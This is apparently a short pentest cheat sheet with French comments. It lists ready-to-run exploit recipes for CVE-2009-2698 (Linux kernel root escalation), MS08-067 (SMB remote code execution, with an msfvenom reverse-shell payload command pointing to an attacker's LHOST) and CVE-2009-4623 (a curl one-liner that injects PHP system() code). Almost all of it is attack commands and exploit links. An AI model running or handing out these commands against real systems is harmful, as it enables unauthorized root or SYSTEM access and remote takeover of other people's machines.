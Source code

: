 # CVE

## Linux

#### CVE-2009-2698 (Linux Kernel < 2.6.19 (x86/x64) - 'udp\_sendmsg') - LPE - ROOT

```
https://github.com/xiaoxiaoleo/CVE-2009-2698 #Binaire
https://github.com/pythonmaster41/Go-For-OSCP/blob/master/Exploits/9545.c #Versions vulnérables
gcc -m32 -Wall -Wl,--hash-style=both 9542.c -o 9542 #Compilation (-m32 important)
```

## Windows

#### MS08-067 (SMB) - RCE - SYSTEM

```
https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86
python3 Python3-MS08-067.py <IP> 1 445 #Changer l'OS cible en modifiant le '1'
```

## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD>');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
